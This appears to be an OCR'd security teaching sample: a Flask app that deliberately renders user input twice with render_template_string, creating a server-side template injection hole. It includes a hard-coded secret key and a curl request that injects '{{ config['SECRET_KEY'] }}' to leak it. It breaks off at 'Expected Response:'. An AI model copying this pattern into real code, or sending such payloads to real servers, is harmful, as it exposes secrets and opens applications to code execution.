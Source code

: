 from flask import Flask, request, render_template_string, jsonify
import os

app = Flask(__name__)

app.config["SITE_MISSION_STATEMENT"] = "Deliver Excellence to Our Clients"
app.config["SECRET_KEY"] = "TopSecretKey!"

# Mock "database" of snippet content
CMS_SNIPPETS = {
    "about_page": """
    <h2>Our Story</h2>
    <p>We started with a vision to {{ site_mission_statement }}.</p>
    <p>{{ next_snippet }}</p>
    """
}

@app.route("/render_snippet")
def render_snippet():
    """
    Vulnerable render_snippet endpoint:
    1. Retrieves snippet from "database".
    2. First render pass: fills in known placeholders.
    3. Second render pass: replaces remaining placeholders, potentially injecting SSTI.
    """
    snippet_key = request.args.get("snippet", "about_page")
    next_snippet_content = request.args.get("next_snippet", "{{ config['SITE_MISSION_STATEMENT'] }}")

    snippet_template = CMS_SNIPPETS.get(snippet_key, "")
    if not snippet_template:
        return jsonify({"error": "Invalid snippet key"}), 400

    # First pass: fill in known placeholders
    first_pass_html = render_template_string(
        snippet_template,
        site_mission_statement=app.config["SITE_MISSION_STATEMENT"]
    )

    # Second pass: replace remaining placeholders, possibly injecting SSTI
    second_pass_html = render_template_string(
        first_pass_html,
        next_snippet=next_snippet_content,
        config=app.config
    )

    return second_pass_html

if __name__ == "__main__":
    app.run(port=7788, debug=True)
```


    
Exploitation Example
An attacker can manipulate the next_snippet parameter to inject SSTI:

```
curl "http://localhost:7788/render_snippet?snippet=about_page&next_snippet={{ config['SECRET_KEY'] }}"
```
Expected Response:

```